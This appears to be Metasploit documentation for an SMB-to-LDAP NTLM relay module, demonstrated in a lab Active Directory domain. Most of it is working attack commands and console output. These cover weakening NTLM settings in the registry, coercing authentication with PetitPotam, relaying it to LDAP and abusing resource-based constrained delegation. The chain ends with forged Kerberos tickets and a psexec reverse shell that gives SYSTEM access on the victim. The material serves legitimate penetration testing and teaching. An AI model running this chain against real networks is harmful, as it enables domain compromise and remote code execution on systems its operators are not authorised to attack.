

## Vulnerable Application

This module supports running an SMB server which validates credentials, and
then attempts to execute a relay attack against an LDAP server on the
configured RHOSTS hosts.

It is not possible to relay NTLMv2 to LDAP due to the Message Integrity Check
(MIC). As a result, this will only work with NTLMv1. The module takes care of
removing the relevant flags to bypass signing.

If the relay succeeds, an LDAP session to the target will be created. This can
be used by any modules that support LDAP sessions, like `admin/ldap/rbcd` or
`auxiliary/gather/ldap_query`.

Supports SMBv2, SMBv3, and captures NTLMv1 as well as NTLMv2 hashes.
SMBv1 is not supported - please see https://github.com/rapid7/metasploit-framework/issues/16261


## Verification Steps

### Lab setup
You will need a Domain Controller and a Domain-joined host:

Domain Computer <-> Metasploit framework <-> Domain Controller

Where:

- Domain name: NEWLAB.local
- VICTIM (Domain Computer) = 192.168.232.111
- msfconsole = 192.168.232.3
- DC01 (Domain Controller) = 192.168.232.110



The Domain Computer will need to be configured to use NTLMv1 by setting the
following registry key to a value less or equal to 2:

```
PS > reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa -v LmCompatibilityLevel /t REG_DWORD /d 0x2 /f
```

```
PS > reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa -v LmCompatibilityLevel

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    LmCompatibilityLevel    REG_DWORD    0x2
```

Finally run the relay server on msfconsole, setting the `RHOSTS` option
to the Domain Controller IP address.

```
run verbose=true RHOSTS=192.168.232.110
```

You will have to coerce the Domain Computer and force it to authenticate to the
msfconsole server (see an example below).


## Options

### RHOSTS

Target address range or CIDR identifier to relay to.

### CAINPWFILE

A file to store Cain & Abel formatted captured hashes in. Only supports NTLMv1 Hashes.

### JOHNPWFILE

A file to store John the Ripper formatted hashes in. NTLMv1 and NTLMv2 hashes
will be stored in separate files.
I.E. the filename john will produce two files, `john_netntlm` and `john_netntlmv2`.

### RELAY_TIMEOUT

Seconds that the relay socket will wait for a response after the client has
initiated communication (default 25 sec.).

### SMBDomain

The domain name used during SMB exchange.


## Scenarios

### Start the relay server
```
msf6 > use auxiliary/server/relay/smb_to_ldap
msf6 auxiliary(server/relay/smb_to_ldap) > run verbose=true RHOSTS=192.168.232.110
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/relay/smb_to_ldap) >
[*] SMB Server is running. Listening on 0.0.0.0:445
[*] Server started.

msf6 auxiliary(server/relay/smb_to_ldap) > _servicemanager
Services
========

 Id  Name                                                              References
 --  ----                                                              ----------
 0   Msf::Exploit::Remote::SMB::RelayServer::SMBRelayServer0.0.0.0445  2
 1   SMB Relay Server                                                  2
```

### Net use example
A simple test would be using the Windows `net use` command:

```
net use \\192.168.232.3\foo /u:Administrator 123456
```

msfconsole output:

```
[*] New request from 192.168.232.111
[*] Received request for \Administrator
[*] Relaying to next target ldap://192.168.232.110:389
[+] Identity: \Administrator - Successfully authenticated against relay target ldap://192.168.232.110:389
[+] Relay succeeded
[*] LDAP session 1 opened (192.168.232.3:45007 -> 192.168.232.110:389) at 2025-01-23 20:39:45 +0100
[*] Received request for \Administrator
[*] Identity: \Administrator - All targets relayed to
[*] New request from 192.168.232.111
[*] Received request for NEWLAB\Administrator
[*] Relaying to next target ldap://192.168.232.110:389
[+] Identity: NEWLAB\Administrator - Successfully authenticated against relay target ldap://192.168.232.110:389
[+] Relay succeeded
[*] LDAP session 2 opened (192.168.232.3:43845 -> 192.168.232.110:389) at 2025-01-23 20:39:46 +0100
[*] Received request for NEWLAB\Administrator
[*] Identity: NEWLAB\Administrator - All targets relayed to

msf6 auxiliary(server/relay/smb_to_ldap) > sessions

Active sessions
===============

  Id  Name  Type  Information                               Connection
  --  ----  ----  -----------                               ----------
  1         ldap  LDAP Administrator @ 192.168.232.110:389  192.168.232.3:45007 -> 192.168.232.110:389 (192.168.232.110)
  2         ldap  LDAP Administrator @ 192.168.232.110:389  192.168.232.3:43845 -> 192.168.232.110:389 (192.168.232.110)
```

### PetitPotam example

Coerce authentication using a non-privileged Domain User account with PetitPotam:

```
msf6 auxiliary(scanner/dcerpc/petitpotam) > run verbose=true rhosts=192.168.232.111 listener=192.168.232.3 SMBUser=msfuser SMBPass=123456 SMBDomain=newlab.local
[*] 192.168.232.111:445   - Binding to c681d488-d850-11d0-8c52-00c04fd90f7e:1.0@ncacn_np:192.168.232.111[\lsarpc] ...
[*] 192.168.232.111:445   - Bound to c681d488-d850-11d0-8c52-00c04fd90f7e:1.0@ncacn_np:192.168.232.111[\lsarpc] ...
[*] 192.168.232.111:445   - Attempting to coerce authentication via EfsRpcOpenFileRaw
[*] 192.168.232.111:445   - Server responded with ERROR_ACCESS_DENIED (Access is denied.)
[*] 192.168.232.111:445   - Attempting to coerce authentication via EfsRpcEncryptFileSrv

[*] New request from 192.168.232.111
[*] Received request for NEWLAB\VICTIM$
[*] Relaying to next target ldap://192.168.232.110:389
[+] Identity: NEWLAB\VICTIM$ - Successfully authenticated against relay target ldap://192.168.232.110:389
[*] Skipping previously captured hash for NEWLAB\VICTIM$
[+] Relay succeeded
[*] LDAP session 1 opened (192.168.232.3:46691 -> 192.168.232.110:389) at 2025-01-23 19:19:18 +0100
[*] Received request for NEWLAB\VICTIM$
[*] Identity: NEWLAB\VICTIM$ - All targets relayed to

[+] 192.168.232.111:445   - Server responded with ERROR_BAD_NETPATH which indicates that the attack was successful
[*] 192.168.232.111:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf6 auxiliary(scanner/dcerpc/petitpotam) > sessions

Active sessions
===============

  Id  Name  Type  Information                               Connection
  --  ----  ----  -----------                               ----------
  1         ldap  LDAP VICTIM$ @ 192.168.232.110:389  192.168.232.3:46691 -> 192.168.232.110:389 (192.168.232.110)

msf6 auxiliary(scanner/dcerpc/petitpotam) > sessions -i 1
[*] Starting interaction with 1...

LDAP (192.168.232.110) > query -f (sAMAccountName=VICTIM$)
CN=VICTIM,CN=Computers,DC=newlab,DC=local
===============================================

 Name                                      Attributes
 ----                                      ----------
 accountexpires                            9223372036854775807
 badpasswordtime                           133820110912034399
 badpwdcount                               0
 cn                                        VICTIM
 ...

LDAP (192.168.232.110) >
Background session 1? [y/N]
```

### Exploit Resource-based Constrained Delegation (RBCD)

For details about RCBD, see https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/rbcd.html#rbcd-exploitation

- Create a computer account with the `admin/dcerpc/samr_account` module and the same Domain User account

```
msf6 auxiliary(admin/dcerpc/samr_account) > run verbose=true rhost=192.168.232.110 SMBUser=msfuser SMBPASS=123456 SMBDomain=newlab.local action=ADD_COMPUTER ACCOUNT_NAME=FAKE01$ ACCOUNT_PASSWORD=123456
[*] Running module against 192.168.232.110
[*] 192.168.232.110:445 - Adding computer
[*] 192.168.232.110:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 192.168.232.110:445 - Binding to \samr...
[+] 192.168.232.110:445 - Bound to \samr
[+] 192.168.232.110:445 - Successfully created newlab.local\FAKE01$
[+] 192.168.232.110:445 -   Password: 123456
[+] 192.168.232.110:445 -   SID:      S-1-5-21-3065298949-3337206023-618530601-1618
[*] Auxiliary module execution completed
```

- Setup RBCD with the `admin/ldap/rbcd` module using the LDAP session

```
msf6 auxiliary(admin/ldap/rbcd) > run verbose=true rhost=192.168.232.110 session=1 delegate_to=VICTIM action=READ
[*] Running module against 192.168.232.110
[+] Successfully bound to the LDAP server via existing SESSION!
[*] Discovering base DN automatically
[*] The msDS-AllowedToActOnBehalfOfOtherIdentity field is empty.
[*] Auxiliary module execution completed

msf6 auxiliary(admin/ldap/rbcd) > run verbose=true rhost=192.168.232.110 session=1 delegate_to=VICTIM action=WRITE delegate_from=FAKE01$
[*] Running module against 192.168.232.110
[+] Successfully bound to the LDAP server via existing SESSION!
[*] Discovering base DN automatically
[+] Successfully created the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
[*] Added account:
[*]   S-1-5-21-3065298949-3337206023-618530601-1618 (FAKE01$)
[*] Auxiliary module execution completed

msf6 auxiliary(admin/ldap/rbcd) > run verbose=true rhost=192.168.232.110 session=1 delegate_to=VICTIM action=READ
[*] Running module against 192.168.232.110
[+] Successfully bound to the LDAP server via existing SESSION!
[*] Discovering base DN automatically
[*] Allowed accounts:
[*]   S-1-5-21-3065298949-3337206023-618530601-1618 (FAKE01$)
[*] Auxiliary module execution completed
```

- Getting the Kerberos tickets using the `admin/kerberos/get_ticket` module

```
msf6 auxiliary(admin/kerberos/get_ticket) > run action=GET_TGS rhost=192.168.232.110 username=FAKE01 password=123456 domain=newlab.local spn=cifs/VICTIM.newlab.local impersonate=Administrator
[*] Running module against 192.168.232.110
[+] 192.168.232.110:88 - Received a valid TGT-Response
[*] 192.168.232.110:88 - TGT MIT Credential Cache ticket saved to /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_759601.bin
[*] 192.168.232.110:88 - Getting TGS impersonating Administrator@newlab.local (SPN: cifs/VICTIM.newlab.local)
[+] 192.168.232.110:88 - Received a valid TGS-Response
[*] 192.168.232.110:88 - TGS MIT Credential Cache ticket saved to /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_975187.bin
[+] 192.168.232.110:88 - Received a valid TGS-Response
[*] 192.168.232.110:88 - TGS MIT Credential Cache ticket saved to /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_335229.bin
[*] Auxiliary module execution completed
```

- Code execution using the `windows/smb/psexec` module

```
msf6 exploit(windows/smb/psexec) > klist
Kerberos Cache
==============
id   host             principal                   sname                                        enctype  issued                     status  path
--   ----             ---------                   -----                                        -------  ------                     ------  ----
105  192.168.232.110  FAKE01@NEWLAB.LOCAL         krbtgt/NEWLAB.LOCAL@NEWLAB.LOCAL             AES256   2025-01-23 19:29:59 +0100  active  /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_759601.bin
106  192.168.232.110  Administrator@NEWLAB.LOCAL  FAKE01@NEWLAB.LOCAL                          AES256   2025-01-23 19:29:59 +0100  active  /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_975187.bin
107  192.168.232.110  Administrator@NEWLAB.LOCAL  cifs/VICTIM.newlab.local@NEWLAB.LOCAL        AES256   2025-01-23 19:29:59 +0100  active  /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_335229.bin

msf6 exploit(windows/smb/psexec) > run lhost=192.168.232.3 rhost=192.168.232.111 username=Administrator smb::auth=kerberos smb::rhostname=VICTIM.newlab.local domaincontrollerrhost=192.168.232.110 domain=newlab.local
[*] Started reverse TCP handler on 192.168.232.3:4444
[*] 192.168.232.111:445 - Connecting to the server...
[*] 192.168.232.111:445 - Authenticating to 192.168.232.111:445|newlab.local as user 'Administrator'...
[*] 192.168.232.111:445 - Using cached credential for cifs/VICTIM.newlab.local@NEWLAB.LOCAL Administrator@NEWLAB.LOCAL
[*] 192.168.232.111:445 - Selecting PowerShell target
[*] 192.168.232.111:445 - Executing the payload...
[+] 192.168.232.111:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 192.168.232.111
[*] Meterpreter session 1 opened (192.168.232.3:4444 -> 192.168.232.111:42528) at 2025-01-23 19:35:07 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 9
Meterpreter     : x86/windows
```

